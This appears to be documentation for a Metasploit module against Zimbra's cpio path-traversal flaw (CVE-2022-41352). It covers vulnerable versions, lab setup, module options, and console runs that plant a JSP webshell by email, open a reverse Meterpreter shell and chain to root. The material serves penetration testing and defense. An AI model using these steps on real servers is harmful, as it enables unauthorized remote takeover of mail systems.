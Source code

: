 ## Vulnerable Application

This module exploits a symlink-based path traversal vulnerability in `cpio`
(that's identified as CVE-2015-1197) that's exploitable in Zimbra. The
following versions of Zimbra are vulnerable:

* Zimbra Collaboration Suite 9.0.0 Patch 26 (and earlier)
* Zimbra Collaboration Suite 8.8.15 Patch 33 (and earlier)

The patch for Zimbra adds `pax` as a pre-requisite, so any version of Zimbra
(except Ubuntu 18.04, which has a patched `cpio` binary) can be made vulnerable
with `rm $(which pax)`.

To verify a host is vulnerable, ensure that `pax` is not installed on the host.
Also, validate that `cpio` is listed in `amavisd.conf` as an option to extract
.tar/.cpio files:

```
[ron@mail tmp]$ sudo cat /opt/zimbra/conf/amavisd.conf | grep cpio
[...]

  [['cpio','tar'], \&do_pax_cpio, ['pax', 'gcpio', 'cpio'] ],
```

Note that this can be chained with other Zimbra exploits to get root.

### Installing Zimbra

Create a VM

```
HDD = 128gb
Memory/etc don't matter
```

I installed a local DNS server (note: replace `<ip>` with the host's actual ip)
(other note: replace `apt` with `yum` to do this on a Red Hat-derived system):

```
sudo apt update && sudo apt install dnsmasq
sudo hostnamectl set-hostname mail.example.org
echo "<ip> mail.example.org" | sudo tee -a /etc/hosts
echo -e 'listen-address=127.0.0.1\nserver=8.8.8.8\ndomain=example.org\nmx-host=example.org, mail.example.org, 5\nmx-host=mail.example.org, mail.example.org, 5' | sudo tee /etc/dnsmasq.conf
```

Configure the host to use it:

```
sudo systemctl disable systemd-resolved
sudo systemctl stop systemd-resolved
sudo killall dnsmasq
sudo systemctl restart dnsmasq
echo "nameserver 127.0.0.1" | sudo tee /etc/resolv.conf
```

Download Zimbra from
https://www.zimbra.com/downloads/zimbra-collaboration-open-source/ - you'll
have to sell your soul and opt-in to spam, but they don't validate your email.

```
tar -xvvzf zcs-*.tgz
cd zcs*
sudo ./install.sh

* Lots of <enter>
* DO NOT install `dnscache` module (respond `N` when it ask), I had conflict issues with the local `dnsmasq`
* Yes change the system
* Setup the admin password, probably turn off auto-updates
```


## Verification Steps

1. Do: `use exploit/linux/http/zimbra_cpio_cve_2022_41352`
1. Do: `set RHOSTS <target>`
1. Do: `set LHOST <listenerip>`
1. Do: `exploit`


## Options

### `FILENAME`

The filename to generate - defaults to `payload.tar`, but can be changed on the
filesystem or whatever.

### `TARGET_PATH`

The absolute path where the payload will extract to. The default is the
webroot, which is usually what you want

### `TARGET_FILENAME`

The actual filename. It really should end with `.jsp`, otherwise it won't
execute.

By default, it's a random string with `.jsp` on the end, in the `public/`
folder. That should work fine, especially because we can't overwrite files and
don't want to use the same payload name more than once.

### `SYMLINK_FILENAME`

The path used for the symlink inside the archive; you probably won't ever want
to change this (default: random)

### `TRIGGER_PAYLOAD`

A boolean, default `true`, that determines whether we use HTTP requests to
trigger the .jsp payload. Set to `false` to trigger the payload manually.

### `ListenerTimeout`

The number of seconds to wait for a new session (default = `0`, or infinite).

### `CheckInterval`

The frequency with which to check for the payload on the server. Every
`CheckInterval`, it performs an HTTP request to the payload path.


## Scenarios

To exploit Zimbra, first load the module and generate the .tar file:

```
msf6 > use exploit/linux/http/zimbra_cpio_cve_2022_41352
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > set LHOST 172.16.166.147
LHOST => 172.16.166.147
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > set RHOSTS 172.16.166.158
RHOSTS => 172.16.166.158
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > exploit
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 172.16.166.147:4444
[*] Encoding the payload as a .jsp file
[*] Adding symlink to path to .tar file: /opt/zimbra/jetty_base/webapps/zimbra/
[*] Adding target file to the archive: public/bdhg.jsp
[+] payload.tar stored at /home/ron/.msf4/local/payload.tar
[+] File created! Email the file above to any user on the target Zimbra server

[...] waiting [...]
```

Then, email that file to any user (including a non-existent mailbox) on the
Zimbra server. Once the payload arrives at Zimbra, Zimbra should try to extract
it to check for malware with no user interaction. Metasploit should see the
malicious file extracted and get a session:

```
[...]
[+] File created! Email the file above to any user on the target Zimbra server
[*] Trying to trigger the backdoor @ public/bdhg.jsp every 5s [backgrounding]...

[file emailed]

[*] Sending stage (3045348 bytes) to 172.16.166.158
[*] Meterpreter session 1 opened (172.16.166.147:4444 -> 172.16.166.158:44808) at 2022-10-06 10:27:34 -0700

msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: zimbra
```

For bonus points, use a different module to get root:

```
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > use exploit/linux/local/zimbra_slapper_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/local/zimbra_slapper_priv_esc) > set SESSION 1
SESSION => 1

msf6 exploit(linux/local/zimbra_slapper_priv_esc) > exploit

[*] Started reverse TCP handler on 172.16.166.147:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Executing: sudo -n -l
[+] The target appears to be vulnerable.
[*] Creating exploit directory: /tmp/.vT1bDSvZV
[*] Attempting to trigger payload: sudo /opt/zimbra/libexec/zmslapd -u root -g root -f /tmp/.vT1bDSvZV/.RhmWwHRn
[*] Sending stage (3045348 bytes) to 172.16.166.158
[+] Deleted /tmp/.vT1bDSvZV
[*] Meterpreter session 2 opened (172.16.166.147:4444 -> 172.16.166.158:60166) at 2022-10-06 10:45:30 -0700

meterpreter > getuid
Server username: root
```

